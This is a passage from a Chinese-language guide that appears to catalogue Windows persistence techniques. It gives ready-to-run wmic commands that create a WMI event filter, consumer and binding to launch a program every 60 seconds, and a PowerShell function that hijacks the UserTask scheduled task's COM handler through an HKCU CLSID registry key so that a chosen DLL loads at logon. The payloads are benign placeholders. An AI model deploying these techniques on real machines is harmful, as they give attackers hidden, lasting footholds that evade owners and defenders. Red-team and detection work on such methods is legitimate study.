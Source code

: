 管理员执行：

```
mofcomp test.mof
```

**13、wmi**

每隔60秒执行一次notepad.exe

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```

**14、Userland Persistence With Scheduled Tasks**

劫持计划任务UserTask，在系统启动时加载dll

```
function Invoke-ScheduledTaskComHandlerUserTask
{
[CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
Param (
[Parameter(Mandatory = $True)]
[ValidateNotNullOrEmpty()]
[String]
$Command,

[Switch]
$Force
)
$ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
New-Item $ScheduledTaskCommandPath -Force |
New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
}else{
Write-Verbose "Key already exists, consider using -Force"
exit
}

if (Test-Path $ScheduledTaskCommandPath) {
Write-Verbose "Created registry entries to hijack the UserTask"
}else{
Write-Warning "Failed to create registry key, exiting"
exit
} 
}
Invoke-ScheduledTaskComHandlerUserTask -Command "C:\test\testmsg.dll" -Verbose
```
